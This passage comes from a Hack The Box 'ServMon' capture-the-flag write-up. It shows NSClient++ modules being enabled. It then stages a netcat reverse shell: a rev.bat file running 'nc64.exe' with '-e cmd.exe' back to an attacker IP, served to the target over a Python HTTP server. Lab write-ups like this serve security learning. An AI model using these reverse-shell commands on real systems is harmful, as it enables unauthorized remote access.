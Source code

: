As we can see in the screenshots below, we are navigating to "Modules" and finding that the required two modules are enabled in the application.
1. CheckExternalScripts
2. Scheduler

![CheckExternalScripts](/assets/img/posts/htb-servmon/ss8.png)
_CheckExternalScripts is enabled_

![Scheduler](/assets/img/posts/htb-servmon/ss9.png)
_Scheduler is enabled_

##### Step-3:

Now, we need two files to be present on the machine.

1. `nc64.exe` - Which you can download from [this github page](https://github.com/int0x33/nc.exe/).
2. `rev.bat` - You can name this file whatever you want, but make sure it has a reverse shell code as given in the example below.

```bash
0hmsec@kali:-$ cat rev.bat
c:\temp\nc64.exe 10.10.14.15 81 -e cmd.exe
```

In the windows machine, let's create a folder called `temp` in "C:\" and also download the two files that we need.

First, we serve the files from our attacking machine with a python server.

```bash
0hmsec@kali:-$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.184 - - [07/Feb/2025 17:19:15] "GET /nc64.exe HTTP/1.1" 200 -
10.10.10.184 - - [07/Feb/2025 17:19:20] "GET /rev.bat HTTP/1.1" 200 -
```
